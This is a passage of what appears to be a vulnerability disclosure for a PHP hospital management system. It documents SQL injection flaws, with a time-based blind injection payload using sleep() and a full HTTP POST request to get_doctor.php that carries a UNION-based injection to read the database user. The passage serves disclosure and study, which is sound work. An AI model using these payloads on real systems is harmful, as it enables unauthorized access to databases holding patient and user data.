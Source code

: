 ```
```
The first letter of the current database user(root) obtained through SQL injection is 'r', and the query result is correct, so the request is delayed about 5 seconds:

![14.png](./img/14.png)

If you query the following statement:
```
fname=aaa'|if(substring((select user() limit 0,1),1,1)='b',sleep(5),1),address='aaaaaaa',city='ccc',gender='female' where id=2#&address=bbb&city=ccc&gender=female&submit=
```
Through SQL injection to guess the first letter of the current database user(root) is 'b', the query result is wrong, so the request will not be delayed for 5 seconds:

![15.png](./img/15.png)


**[5]**

In \hms\get_doctor.php:

![16.png](./img/16.png)

Line 6 gets the POST variable specilizationid value directly into the database query causing SQL injection.

You can get the current database user as root through the following SQL injection statement:
```
POST /hms/get_doctor.php HTTP/1.1
Host: 127.0.0.1:8009
Connection: keep-alive
Content-Length: 51
Pragma: no-cache
Cache-Control: no-cache
Origin: http://127.0.0.1:8009
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.100 Safari/537.36
Sec-Fetch-Dest: document
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Referer: http://127.0.0.1:8009/hms/registration.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=vn7s77l28he51c598cvhbl5un2

specilizationid=aaa' and 1=2 union select user(),2#
```
As shown in the figure, the current database user obtained through SQL injection is root:

